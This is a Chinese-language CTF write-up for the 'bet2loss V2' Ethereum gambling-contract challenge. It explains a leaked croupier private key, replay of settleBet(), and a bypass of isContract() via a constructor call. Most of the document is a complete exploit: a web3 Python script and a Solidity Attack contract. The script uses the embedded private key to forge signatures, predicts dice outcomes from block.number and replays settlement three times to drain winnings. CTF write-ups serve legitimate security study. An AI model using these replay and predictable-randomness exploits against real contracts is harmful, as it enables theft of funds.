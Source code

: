 # bet2loss V2
> 出题人：Lurkrul、kevin 考察点：replay attack

本题改编自 HCTF 2018 bet2loss; bet2loss 的 web 源码已于 github 公开 [[1][3]].

在 settings.py 中有泄漏 *croupier* 的私钥, onlyCroupier 的函数可以直接拿此账号调用.

注意到 bet 绑定 *player*, `settleBet()` 可以施行 replay attack, 收益与重放次数以及 *diceWin* 有关. 由于限制了开注次数, 因此需要最大化 *diceWin* (运气好, all in 成功了我也没话说). 每次 bet 最多获得 100k, flag 需要 300k, 开注一次,重放两次即可. 

计算 dice 的方法伪随机, 拿到账号后可以自己实现签名, 需要预测的是 *block.number*. 这可以部署合约来提前获取. `settleBet()`里有个 `isContract()`, 它是通过 extcodesize 来判断, 但是从 constructor 中调用时返回 0 [[2][4]]. 综上, 可以部署合约来实现稳赢.

实际比赛中, 几乎没有队伍去考虑绕过 `isContract()`, 还有队伍没发现泄漏的私钥直接爆破 *reveal* 和 web 层交互的. ~~一波骚操作简直亮瞎狗眼.~~

注意到有些队伍生成签名的时候卡住了, 这里稍微提一下. 合约中看起来并没有改过, 但是 *commitLastBlock* 的类型变了, 然而 `abi.encodePacked()` 返回内容会随类型改变 [[3][5]], 所以 HCTF 那题的代码并不能直接拿来用. 

[3]:https://github.com/LoRexxar/HCTF2018_bet2loss
[4]:https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract/15642#15642
[5]:https://solidity.readthedocs.io/en/v0.5.13/abi-spec.html#non-standard-packed-mode
```python
from web3 import Web3
from solc import compile_source
import os, random

infura_url = 'https://ropsten.infura.io/v3/xxx'
web3 = Web3(Web3.HTTPProvider(infura_url))
accounts = {
    'player': {
        'addr': '0x8F1D24E114aA84bC66d8950142008348b4c6cEd0',
        'priv': ''
    }, 
    'croupier': {
        'addr': '0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C',
        'priv': '6F08D741943990742381E1223446553A63B38A3AA86BEEF1E9FC5FCF61E66D12'
    }
}


def sign(reveal):
    result = {'reveal':reveal}
    
    commitLastBlock = web3.eth.blockNumber + 250
    result['commitLastBlock'] = commitLastBlock
    
    commit = web3.sha3( reveal.to_bytes(32, 'big') )
    result['commit'] = int.from_bytes(commit, 'big')
    
    message = commitLastBlock.to_bytes(5, 'big') + commit
    message_hash = web3.sha3(message)
    signature = web3.eth.account.signHash(message_hash, private_key=accounts['croupier']['priv'])
    result['r'] = signature['r']
    result['s'] = signature['s']
    result['v'] = signature['v']
    
    return result


def transact(_to, _data):
    tx = {
        'from': defaultAccount['addr'],
        'nonce': web3.eth.getTransactionCount(defaultAccount['addr']),
        'to': _to,
        'gas': 1000000,
        'value': 0,
        'gasPrice': web3.eth.gasPrice * 2,
        'data': _data,
    }
    signed_tx = web3.eth.account.signTransaction(tx, defaultAccount['priv'])
    tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
    tx_receipt = web3.eth.waitForTransactionReceipt(tx_hash)
    return tx_receipt


def settleBet():
    transact( gameAddress, web3.sha3(b'settleBet(uint256)')[:4].hex() + hex(reveal)[2:].rjust(64, '0') )


def getFlag():
    transact( attackAddress, web3.sha3(b'getFlag()')[:4].hex() )


attack = '''pragma solidity ^0.4.24;
contract Attack {
    address constant croupier = 0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C;
    uint8 constant modulo = 100;
    uint40 constant wager = 1000;
    uint8 betnumber;
    address game;

    constructor(address _game, uint40 commitLastBlock, uint commit, bytes32 r, bytes32 s, uint8 v, uint reveal) public {
        game = _game;
        bytes32 signatureHash = keccak256(abi.encodePacked(commitLastBlock, commit));
        require (croupier == ecrecover(signatureHash, v, r, s), "signature is not valid.");
        require (commit == uint(keccak256(abi.encodePacked(reveal))), "commit is not valid.");

        bytes32 entropy = keccak256(abi.encodePacked(reveal, uint(block.number)));
        uint _betnumber = uint(entropy) % uint(modulo);
        betnumber = uint8(_betnumber);

        game.call(bytes4(keccak256("placeBet(uint8,uint8,uint40,uint40,uint256,bytes32,bytes32,uint8)")),betnumber,modulo,wager,commitLastBlock,commit,r,s,v);

    }

    function getFlag() external {
        game.call(bytes4(keccak256("PayForFlag()")));
        selfdestruct(0);
    }

}'''


defaultAccount = accounts['player']
gameAddress = ''

reveal = random.randint(1, 2**40)
result = sign(reveal)

compiled_sol = compile_source(attack)
contract_interface = compiled_sol['<stdin>:Attack']
bytecode = contract_interface['bin']
bytecode += gameAddress[2:].rjust(64, '0')
bytecode += hex( result['commitLastBlock'] )[2:].rjust(64, '0')
bytecode += hex( result['commit'] )[2:].rjust(64, '0')
bytecode += hex( result['r'] )[2:].rjust(64, '0')
bytecode += hex( result['s'] )[2:].rjust(64, '0')
bytecode += hex( result['v'] )[2:].rjust(64, '0')
bytecode += hex( result['reveal'] )[2:].rjust(64, '0')
tx = {
    'from': defaultAccount['addr'],
    'nonce': web3.eth.getTransactionCount(defaultAccount['addr']),
    'gas': 1000000,
    'value': 0,
    'gasPrice': web3.eth.gasPrice * 2,
    'data': '0x' + bytecode,
}
signed_tx = web3.eth.account.signTransaction(tx, defaultAccount['priv'])
tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
tx_receipt = web3.eth.waitForTransactionReceipt(tx_hash)
attackAddress =  tx_receipt.contractAddress
print('attack Address: ' + attackAddress)


defaultAccount = accounts['croupier']
for _ in range(3):
    settleBet()
    print('settleBet')


defaultAccount = accounts['player']
getFlag()
print('done')
```
